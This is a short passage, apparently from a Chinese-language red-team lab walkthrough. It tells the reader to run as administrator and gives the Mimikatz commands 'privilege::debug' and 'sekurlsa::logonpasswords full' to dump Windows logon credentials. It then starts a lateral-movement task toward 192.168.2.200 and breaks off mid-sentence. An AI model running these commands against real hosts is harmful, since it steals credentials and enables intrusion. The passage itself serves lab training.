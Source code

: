 以管理员权限运行：

![image-20220616115016208460-1655884143741533.png](img/Untitled.assets/791a804b4243fe011ab59a59fc384294.png)

抓取密码：

```
privilege::debug

sekurlsa::logonpasswords full
```

![image-20220616115147842058-1655884145038439.png](img/Untitled.assets/77ce4e83692c861ff4c5105e31ddfa06.png)

#### 阶段四：Client

##### 任务9：横向移动（T1570 - 工具横向移动）

断开远程桌面连接，尝试横向移动到主机`192.168.2.200`，进入工具目录，路径如下：
